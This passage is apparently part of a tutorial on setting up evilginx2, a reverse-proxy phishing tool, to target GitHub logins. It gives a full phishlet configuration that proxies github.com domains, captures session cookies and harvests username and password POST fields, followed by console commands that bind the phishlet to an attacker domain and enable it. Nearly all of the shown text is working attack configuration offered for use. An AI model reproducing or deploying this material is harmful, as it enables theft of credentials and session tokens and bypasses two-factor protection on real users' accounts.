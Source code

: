 ```
make
```
3. In the phishlets directory, edit the github.yaml file to match the following: 

```
author: '@audibleblink'
min_ver: '2.3.0'
proxy_hosts:
  - {phish_sub: '', orig_sub: '', domain: 'github.com', session: true, is_landing: true}
  - {phish_sub: 'api', orig_sub: 'api', domain: 'github.com'}
  - {phish_sub: 'github', orig_sub: 'github', domain: 'githubassets.com'}

sub_filters:
  - {triggers_on: 'github.com', orig_sub: '', domain: 'github.com', search: 'https://{hostname}', replace: 'https://{hostname}', mimes: ['text/html', 'application/json', 'application/javascript']}
  - {triggers_on: 'github.com', orig_sub: '', domain: 'github.com', search: 'https://{hostname}/sessions/two-factor', replace: 'https://{hostname}/sessions/two-factor', mimes: ['text/html', 'application/json', 'application/javascript']}
  - {triggers_on: 'github.com', orig_sub: '', domain: 'github.com', search: '{hostname}', replace: 'hostname', mimes: ['text/html', 'application/json', 'application/javascript']}


auth_tokens:
  - domain: '.github.com'
    keys: ['logged_in', 'dotcom_user']
  - domain: 'github.com'
    keys: ['user_session', '_gh_sess']

credentials:
  username:
    key: 'login'
    search: '(.*)'
    type: 'post'
  password:
    key: 'password'
    search: '(.*)'
    type: 'post'

login:
  domain: 'github.com'
  path: '/login'
```

## Running evilginx2
1. Run: ```  sudo ./bin/evilginx -p phishlets ``` to start up evilginx2. 
2. In the evilginx2 console run the following commands for the initial configuration:
```
config domain your.domain
config ip <your public ip for the EC2 instance>
```
3. Now setup the phishlet. Link it up to the hostname you want to use and enable it! 
```
phishlets hostname github your.domain
phishlets enable github
```
Your output should resemble the following: